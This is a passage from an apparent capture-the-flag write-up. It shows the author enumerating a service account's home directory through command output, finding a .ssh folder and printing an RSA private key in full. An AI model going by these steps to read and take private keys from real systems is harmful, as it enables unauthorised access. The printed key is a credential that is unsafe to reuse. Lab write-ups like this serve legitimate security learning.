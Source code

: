 - I was about to try to get a reverse shell but I decided to make a sanity check to see if we had ssh keys.
- Indeed, with the enum we find a folder .ssh  
![image](https://user-images.githubusercontent.com/96747355/167316058-fc398643-6b23-4eb9-9279-206a053110d6.png)  

```
<p>name=total 40
drwxr-xr-x 7 svc_acc svc_acc 4096 Apr  7 13:51 .
drwxr-xr-x 3 root    root    4096 Jan  5 10:44 ..
drwxrwxr-x 7 svc_acc svc_acc 4096 Apr  4 13:28 app
lrwxrwxrwx 1 svc_acc svc_acc    9 Jan 16 18:45 .bash_history -&gt; /dev/null
-rw-r--r-- 1 svc_acc svc_acc 3771 Apr  4  2018 .bashrc
drwx------ 3 svc_acc svc_acc 4096 Apr  7 13:51 .cache
drwx------ 3 svc_acc svc_acc 4096 Jan  5 10:45 .gnupg
drwxrwxr-x 5 svc_acc svc_acc 4096 Jan  5 12:13 .local
-rw-r--r-- 1 svc_acc svc_acc  807 Apr  4  2018 .profile
drwx------ 2 svc_acc svc_acc 4096 Apr  7 11:08 .ssh
-rw-r----- 1 root    svc_acc   33 May  7 23:30 user.txt

</p>
```

- And we have a private key  
![ls-ssh](https://user-images.githubusercontent.com/96747355/167316199-f08b56f4-0b20-4672-b52c-c761bbe1ec01.png)  
```
<p>name=total 20
drwx------ 2 svc_acc svc_acc 4096 Apr  7 11:08 .
drwxr-xr-x 7 svc_acc svc_acc 4096 Apr  7 13:51 ..
-rw-rw-r-- 1 svc_acc svc_acc  394 Apr  7 11:08 authorized_keys
-rw------- 1 svc_acc svc_acc 1679 Apr  7 11:08 id_rsa
-rw-r--r-- 1 svc_acc svc_acc  394 Apr  7 11:08 id_rsa.pub
</p>
```
- We get the private key!  
![catrsa](https://user-images.githubusercontent.com/96747355/167316265-851688c0-1ceb-478a-9055-521c39101525.png)  
```
<p>name=-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAqe5XWFKVqleCyfzPo4HsfRR8uF/P/3Tn+fiAUHhnGvBBAyrM
HiP3S/DnqdIH2uqTXdPk4eGdXynzMnFRzbYb+cBa+R8T/nTa3PSuR9tkiqhXTaEO
bgjRSynr2NuDWPQhX8OmhAKdJhZfErZUcbxiuncrKnoClZLQ6ZZDaNTtTUwpUaMi
/mtaHzLID1KTl+dUFsLQYmdRUA639xkz1YvDF5ObIDoeHgOU7rZV4TqA6s6gI7W7
d137M3Oi2WTWRBzcWTAMwfSJ2cEttvS/AnE/B2Eelj1shYUZuPyIoLhSMicGnhB7
7IKpZeQ+MgksRcHJ5fJ2hvTu/T3yL9tggf9DsQIDAQABAoIBAHCBinbBhrGW6tLM
fLSmimptq/1uAgoB3qxTaLDeZnUhaAmuxiGWcl5nCxoWInlAIX1XkwwyEb01yvw0
ppJp5a+/OPwDJXus5lKv9MtCaBidR9/vp9wWHmuDP9D91MKKL6Z1pMN175GN8jgz
W0lKDpuh1oRy708UOxjMEalQgCRSGkJYDpM4pJkk/c7aHYw6GQKhoN1en/7I50IZ
uFB4CzS1bgAglNb7Y1bCJ913F5oWs0dvN5ezQ28gy92pGfNIJrk3cxO33SD9CCwC
T9KJxoUhuoCuMs00PxtJMymaHvOkDYSXOyHHHPSlIJl2ZezXZMFswHhnWGuNe9IH
Ql49ezkCgYEA0OTVbOT/EivAuu+QPaLvC0N8GEtn7uOPu9j1HjAvuOhom6K4troi
WEBJ3pvIsrUlLd9J3cY7ciRxnbanN/Qt9rHDu9Mc+W5DQAQGPWFxk4bM7Zxnb7Ng
Hr4+hcK+SYNn5fCX5qjmzE6c/5+sbQ20jhl20kxVT26MvoAB9+I1ku8CgYEA0EA7
t4UB/PaoU0+kz1dNDEyNamSe5mXh/Hc/mX9cj5cQFABN9lBTcmfZ5R6I0ifXpZuq
0xEKNYA3HS5qvOI3dHj6O4JZBDUzCgZFmlI5fslxLtl57WnlwSCGHLdP/knKxHIE
uJBIk0KSZBeT8F7IfUukZjCYO0y4HtDP3DUqE18CgYBgI5EeRt4lrMFMx4io9V3y
3yIzxDCXP2AdYiKdvCuafEv4pRFB97RqzVux+hyKMthjnkpOqTcetysbHL8k/1pQ
GUwuG2FQYrDMu41rnnc5IGccTElGnVV1kLURtqkBCFs+9lXSsJVYHi4fb4tZvV8F
ry6CZuM0ZXqdCijdvtxNPQKBgQC7F1oPEAGvP/INltncJPRlfkj2MpvHJfUXGhMb
Vh7UKcUaEwP3rEar270YaIxHMeA9OlMH+KERW7UoFFF0jE+B5kX5PKu4agsGkIfr
kr9wto1mp58wuhjdntid59qH+8edIUo4ffeVxRM7tSsFokHAvzpdTH8Xl1864CI+
Fc1NRQKBgQDNiTT446GIijU7XiJEwhOec2m4ykdnrSVb45Y6HKD9VS6vGeOF1oAL
K6+2ZlpmytN3RiR9UDJ4kjMjhJAiC7RBetZOor6CBKg20XA1oXS7o1eOdyc/jSk0
kxruFUgLHh7nEx/5/0r8gmcoCvFn98wvUPSNrgDJ25mnwYI0zzDrEw==
-----END RSA PRIVATE KEY-----

```